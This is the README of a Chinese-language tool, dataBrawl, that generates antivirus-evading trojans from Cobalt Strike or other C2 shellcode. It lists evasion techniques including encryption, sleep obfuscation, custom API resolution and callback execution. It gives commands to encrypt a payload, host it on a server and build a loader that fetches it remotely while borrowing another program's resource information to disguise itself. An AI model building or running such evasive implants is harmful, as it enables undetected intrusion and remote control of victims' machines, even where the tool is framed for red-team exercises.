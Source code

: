 # dataBrawl

**（2024.6.25注：hvv期间工具暂停更新，结束后更新hvv专版）**

一款一键化生成免杀木马的shellcode免杀框架，具备**本地加载**方式和**远程加载**方式。

（本工具没有追求多而全的加载方式，去除经多次测试无效的加载技术，保留了最实用最接近APT的利用方式。）

**目前已支持：**

1. 分离加载shellcode
2. XOR/RC4 加密
3. 堆加密
4. 自定义sleep混淆
5. 自定义GetProcAddress/GetModuleHandle
6. 回调执行shellcode
7. 一键添加资源信息
8. ...



**待更新：**

1. 将bin转换成图片加载
2. 更多的反沙箱、反分析方式，更多的内存对抗等







## 环境准备

本工具使用mingw编译，需要准备好编译环境，下载mingw编译器：

官网地址：https://www.mingw-w64.org/

Windows下载链接： https://sourceforge.net/projects/mingw-w64/files/

我下载的是x86_64-win32-seh，具体请根据系统情况适配，也可以直接下载online installer

<img src="./assets/image-20240417134130271.png" alt="image-20240417134130271" style="zoom:50%;" />



添加系统环境变量：

path = 解压目录/mingw64/bin

最好把include和lib也对应添加到环境变量的include和lib中，以免编译找不到链接库



## 使用说明

```
python dataBrawl.py -h
```

![image-20240417132855251](./assets/image-20240417132855251.png)

#### 远程加载shellcode

CS或其他C2生成shellcode

![image-20240417140327230](./assets/image-20240417140327230.png)

生成处理后的bin文件

```shell
python dataBrawl.py remote D:\Dev\dataBrawl-1.0\calc.bin -c 1
```

将生成在根目录的encrypt.bin上传到服务器

```shell
python dataBrawl.py remote http://127.0.0.1/xorcalc.bin -i D:\Typora\Typora.exe
```

![image-20240417132140197](./assets/image-20240417132140197.png)



![image-20240417132323764](./assets/image-20240417132323764.png)